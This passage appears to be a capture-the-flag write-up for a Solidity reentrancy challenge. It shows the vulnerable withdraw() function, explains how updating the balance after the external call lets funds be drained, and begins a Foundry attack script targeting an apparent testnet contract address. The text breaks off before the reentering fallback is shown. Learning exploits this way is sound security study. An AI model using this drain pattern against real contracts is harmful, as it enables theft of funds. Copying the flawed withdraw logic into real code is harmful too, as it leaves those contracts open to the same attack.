 ```javascript
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

- Goal 

1. Drain all the ether of the Reentrance contract

- Solution

1. The `withdraw()` function is vulnerable to `Reentrancy`, as it is updating the user balance after the external call.
2. One could deposit some ether to pass the require check in withdraw and and call the withdraw from a contract in which a fallback function is implemented in such a way that it is re entered into withdraw again.
3. So, we will donate some ether to the contract and then call withdraw from a contract.
4. The withdraw call send our ether back and invokes the fallback or receive function of our contract.
5. We can call the `withdraw()` function again from the fallback function to reenter again into `Reentrance` contract.
6. Still we can manage to pass require check as our balance wasn't updated yet. 
7. We need to check the balance of the `Reentrance` contract before reentering because when we call the withdraw again after the balance of `Reentrance` becomes zero will revert the entire transaction.


`ReentrancySolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {Reentrance} from "../src/Reentrancy.sol";

contract ReentrancySolve is Script{
    Reentrance public reentrance = Reentrance(0xD063dA7e4876694Cf31a23c7bb61e38184FD5B02);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Initial Balance : ", address(reentrance).balance);

        new Attack().exploit{value: 0.001 ether}();

        console.log("Final Balance : ", address(reentrance).balance);
        vm.stopBroadcast();
    }
}

contract Attack{
    Reentrance public reentrance = Reentrance(0xD063dA7e4876694Cf31a23c7bb61e38184FD5B02);

    function exploit() public payable{
        reentrance.donate{value: 0.001 ether}(address(this));
        reentrance.withdraw(0.001 ether);

        // I need my sepolia back
```